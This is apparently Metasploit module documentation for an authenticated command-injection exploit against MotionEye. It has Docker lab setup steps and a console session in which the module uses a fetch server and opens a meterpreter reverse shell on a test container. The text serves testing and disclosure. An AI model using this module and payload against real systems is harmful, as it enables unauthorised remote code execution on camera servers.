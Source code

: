 ## Vulnerable Application

This module exploits a template injection vulnerability in the MotionEye.

MotionEye is vulnerable to OS Command Injection in configuration parameters such as image_file_name. 
Unsanitized user input is written to Motion configuration files, 
allowing remote authenticated attackers with admin access to achieve code execution when Motion is restarted.

This vulnerability affects MotionEye versions <= 0.43.1b4 are vulnerable.
Successful exploitation may result in the remote code execution under the privileges
of the web server, potentially exposing sensitive data or disrupting survey operations.

An attacker can execute arbitrary system commands in the context of the user running the web server.

## Testing

1. Use Docker to set up the MotionEye app

`docker run -p 9999:8765 ghcr.io/motioneye-project/motioneye@sha256:718171663d28f04f2fb97244f8ef03a814367b06078fc00685acc47f61663890`

2. Open http://127.0.0.1:9999/ and make sure the app is available

## Scenario

```
msf6 > use exploit/multi/http/motioneye_auth_rce_cve_2025_60787
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > set RPORT 9999
RPORT => 9999
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > set FETCH_SRVHOST 172.17.0.1
FETCH_SRVHOST => 172.17.0.1
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > set PASSWORD 12345
PASSWORD => 12345
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > run

[*] Started reverse TCP handler on 192.168.19.130:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected version 0.43.14, which is vulnerable
[*] Adding camera...
[+] Camera successfully added
[*] Setting up exploit...
[+] Exploit installation completed
[*] Executing exploit...
[+] Execution exploit request sent successfully
[*] Removing camera
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.19.130:4444 -> 172.17.0.2:38124) at 2025-10-04 21:08:57 -0400
[+] Camera removed successfully

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 13.1 (Linux 6.11.2-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
